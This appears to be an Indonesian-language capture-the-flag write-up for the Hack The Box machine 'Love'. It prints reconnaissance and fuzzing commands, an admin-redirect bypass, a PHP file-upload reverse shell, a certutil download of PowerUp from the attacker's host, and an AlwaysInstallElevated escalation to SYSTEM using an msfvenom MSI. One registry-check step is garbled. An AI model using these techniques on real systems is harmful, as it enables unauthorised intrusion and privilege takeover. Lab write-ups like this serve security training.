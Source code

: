 # HTB - Love
![Alt text](asset/banner.png)
## Information Gathering



Seperti biasa, Hal pertama yang harus saya lakukan adalah mengumpulkan sebanyak mungkin informasi  mengenai server yang akan kita serang. pada tahap ini saya ingin mencari tahu port/service dan OS apa yang dijalankan pada server tersebut.
langsung saja saya menggunakan masscan untuk melihat port apa saja yang terbuka

>masscan --rate=500 -e tun0 -p1-65535 10.10.10.239
![Alt text](asset/masscan.png)

Setelah ditemukan daftar port yang terbuka, lalu saya menggunakan nmap untuk mengetahui service apa yang dijalankan pada port tersebut

>nmap -p 49665,49668,5040,139,3306,5986,5985,135,7680,445,49667,47001,49669,49666,443,49664,5000,49670,80 -A 10.10.10.239
![Alt text](asset/nmap1.png)
![Alt text](asset/nmap2.png)

Pada hasil nmap tersebut diketahui beberapa service yang dijalankan pada server tersebut, dan juga diketahui bahwa hostname nya adalah love.htb maka hostname tersebut perlu ditambahkan pada file hosts yang terletak di /etc/hosts.

![Alt text](asset/hostsfile.png)

jika sudah lanjut ketahap enumerasi
## Enumeration
dengan diketahui nya service apa saja yang berjalan, maka saya akan mulai melakukan enumerasi dari port smb lalu ke http 
### Port 445 :smb
pada port ini saya mencoba melakukan enumerasi menggunakan smbclient untuk mengetahui share apa saja yang dapat diakses dan nma untuk mengecek apakah smb nya menggunakan versi yang vulnerable
![Alt text](asset/smbenum.png)
pada port tersebut tidak ada informasi yang menarik, maka saya melanjutkan enumerasi ke port http yang dimulai dari port 80

### Port 80 :http
ketika mengakses port 80 dari browser, halaman yang pertama kali ditampilkan adalah halaman login
![Alt text](asset/80page.png)
saya tidak mengetahui mengenai username dan password yang digunakan. saya telah mencoba menggeunakan metode bruteforce dan sql / nosql injection, tetapi tidak ada yang berhasil, lalu mencoba mencari directory atau file apa saja yang ada pada website tersebut menggunakan ffuf
>ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://love.htb/FUZZ -e .html,.php,.txt -recursion -recursion-depth 1 -o port80.html -of html -rate 2000 -fs 4388 -fc 403
![Alt text](asset/ffufresult.png)
pada hasil tersebut ditemukan sesuatu yang menarik, pada directory admin ditemukan halaman dengan panjang yang berbeda-beda dan status code nya adalah 302, maka saya mencoba mengakses halaman tersebut dan melakukan intercept response nya menggunakan burpsuite
![Alt text](asset/responseburp.png)
dapat dilihat bahwa ketika saya tidak terautentikasi dan mengakses page yang berada pada directory admin maka saya akan di redirect tetapi pada response tersebut server telah memuat isi halaman page pada directory tersebut, maka saya mencoba mengganti response code nya dari 302 Found menjad 200 OK. hasil nya saya berhasil masuk kehalaman dashboard
![Alt text](asset/dashboard.png)

setelah melakukan eksplorasi pada website tersebut, ditemukan suatu fitur untuk menambah kandidat, pada fitur tersebut terdapat field untuk melakukan upload foto 
![Alt text](asset/uploadfileform.png)
disini saya mencoba untuk upload file php yang berisi function phpinfo() untuk mengecek apakah vulnerable terhadap arbitary file upload.
walaupun terjadi error dikarenakan saya tidak terautentikasi dengan benar tetapi fle php tersebut berhasil di upload.
![Alt text](asset/erroradmin.png)

file php tersebut dapat diakses pada directory /images/info.php
![Alt text](asset/phpinfp.png)

## Foothold!!

dengan ada nya kerentanan tersebut saya dapat melakukan reverse shell via php file upload, saya menggunakan payload php milik ivan-sincek yang dapat di akses pada url berikut
> https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

![](./asset/traversalid_rsa.png)

yang perlu dilakukan pada payload tersebut adalah mengganti ip sesuai dengan ip vpn milik kita
![Alt text](asset/changeip.png)
jika suda setup nc listener pada terminal lokal kalian
>nc -lvnp 7777

lalu ulangi langkah yang sama saat melakukan upload phpinfo
![Alt text](asset/compromise.png)
dan berhasil mendapatkan shell level user

## Privilege Escalation 💫

untuk melakkan privilege escalation pada windows biasanya saya akan menggunakan tool yang bernama powerup, powerup dapat diunduh pada url berikut
>https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

jika tool tersebut sudah didownload, maka saya perlu mentransfer file tersebut ke server yang akan di attack.berikut merupakan step nya:
<ol>
<li>nyalakan http server pada komputer lokal</li>

![Alt text](asset/httpserver.png)

<li>jalankan command berikut pada server victim</li>

>certutil -urlcache -f http://10.10.14.10/powerup.ps1 powerup.ps1

![Alt text](asset/transfersuccess.png)
</ol>

setelah tool berhasil di transfer, jalankan tool tersebut
![Alt text](asset/runpowerup.png)

ditemukan bahwa server berpotensi dilakukan privile escalation dengan metode 'allways install elevated' yang merupakan windows policy yang memungkinkan user unprivilege untuk menginstall software menggunakan file msi dengan privilege system.
![Alt text](asset/powerupresult.png)

untuk memastikan nya saya coba menjalankan command berikut
>HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
![Alt text](asset/validateallwaysinstallprivilege.png)

maka yang selanjut nya saya lakukan adalah membuat payload reverse shell menggunakan msfvenom
![Alt text](asset/msfprivesc.png)
lalu transfer payload tersebbut ke server victim dengan metode yang sama seperti mentrasfer tool powerup.ps1.

jika sudah siapkan nc listener
>nc -lvnp 6666

lalu jalankan file msi tersebut dengan cara
>msiexec /quiet /qn /i privesc.msi

maka kita berhasil mendapatkan shell dengan privilege nt authority\system
![Alt text](asset/gotroot.png)


![Alt text](asset/end.png)